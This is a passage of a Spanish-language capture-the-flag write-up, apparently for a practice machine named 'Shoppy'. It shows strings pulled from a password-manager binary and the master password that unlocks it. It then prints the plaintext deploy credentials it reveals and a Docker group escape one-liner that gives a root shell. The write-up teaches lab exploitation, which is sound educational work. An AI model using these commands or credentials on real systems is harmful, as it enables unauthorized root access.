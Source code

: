 ```bash
                                                                                             H�=�.�-����H��H�S,H��H������H�E�H�������H�E�H����������<H��H�E�H��������H��H�E�H���w����H��H�E�H���f���H��H���
 ���H�]���UH��H���}��u��}�u2�}���u)H�=�.�����H�u,H�5�.H��+H���/������UH�����������]��AWL�=W)AVI��AUI��ATA��UH�-P)SL)�H������H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !@����0����@���h%����
```

# [](#header-1)Acceso al sistema

Lo ejecuto como root con la contraseña y nos da unas credenciales:

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample 
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Intento conectarme mediante SSH con el usuario deploy y la contraseña que nos da y funciona.

# [](#header-1)Escalada de privilegios

Entro al sistema como usuario deploy. Tras hacer id veo que estoy en el grupo docker:

```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

Me dirigo a <a href="https://gtfobins.github.io/gtfobins/docker/">GTFOBins</a> y ejecuto la linea que nos muestra.

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
```

Nos dirigimos a /root y conseguimos así la flag de root en el archivo root.txt

Muchas gracias por leer este writeup, espero que te haya gustado!

